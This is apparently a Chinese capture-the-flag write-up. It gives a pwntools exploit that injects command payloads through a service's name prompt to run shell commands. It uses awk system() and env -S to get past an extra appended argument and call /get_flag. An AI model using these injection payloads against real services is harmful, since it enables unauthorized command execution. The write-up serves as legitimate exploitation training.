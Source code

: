```bash
def sl(data: bytes):
    return p.sendline(data)



def sla(delim: str, data: bytes):
    return p.sendlineafter(delim, data)



def itr():
    return p.interactive()



def leak(desc: str, addr: int):
    return log.success(f"{desc} ==> {hex(addr)}")



def debug(gdbscript: str = "", terminal: str = ""):
    if terminal == "tmux":
        context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(p, gdbscript)
    pause()



# ++++++++++++++++++++++++++++++++++++++++
# debug("", "")

# fmt: off
# fmt: on


sla("What's your name?\n", b"!/bin/ls /\0'")
sla("Where are you from?\n", b"whoami")
sla("procedurally-generated story?\n", b"yes")

itr()
```
执行 `ls \` 时可以枚举根目录，但执行 whoami 时无法得到回显，并且得到如下的错误输出：
```bash
/bin/whoami: extra operand ‘/tmp/script.sh’
Try '/bin/whoami --help' for more information.
```
错误的原因在于这种场景下执行的脚本，会将脚本名 `/tmp/script.sh` 作为最后一个参数传入。 使用 echo 可以观察所有参数：
```py
sla("What's your name?\n", b"!/bin/echo aaa\0'")

# aaa /tmp/script.sh
```
远程环境中，执行 cat /flag 会提示要求执行 /get_flag，执行后发现需要传入参数 `Give flag please`, 但直接执行总会副加上 `/tmp/script.sh` 这个参数而导致失败：
```py
sla("What's your name?\n", b"!/get_flag Give flag please\0'")
```
这样的环境也可以视为一个受限的环境，利用 awk、env 等命令包装一层就可以排除额外参数的干扰。
payload 如下：
```py
sla("What's your name?\n", b"!/usr/bin/awk BEGIN {system(\"/get_flag Give flag please\")}\0'")
```
也可以使用 env -S
```py
sla("What's your name?\n", b"!/usr/bin/env -S /get_flag Give flag please\0'")
```